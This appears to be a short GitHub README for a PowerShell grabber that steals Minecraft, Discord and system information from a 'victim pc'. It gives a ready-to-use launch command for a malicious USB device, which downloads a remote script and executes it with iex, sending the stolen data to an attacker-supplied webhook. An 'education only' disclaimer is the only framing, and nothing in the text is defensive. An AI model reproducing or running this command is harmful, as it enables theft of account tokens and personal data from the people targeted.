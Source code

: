 # Legitgrab-POWERSHELL

This is a very bad scrypt for grab Minecraft/Discord/Info of you victim pc

Start command for your bad usb or idk
powershell $webHookUrl='"YOUR_WEBHOOK"';iex((iwr https://raw.githubusercontent.com/Appolon24800/Legitgrab-POWERSHELL/main/gr.ps1).content)

THIS IS FOR EDUCATION ONLY 


[image](https://user-images.githubusercontent.com/93398824/212477325-c7278989-f36f-4c4d-88b5-448d29692fee.png)
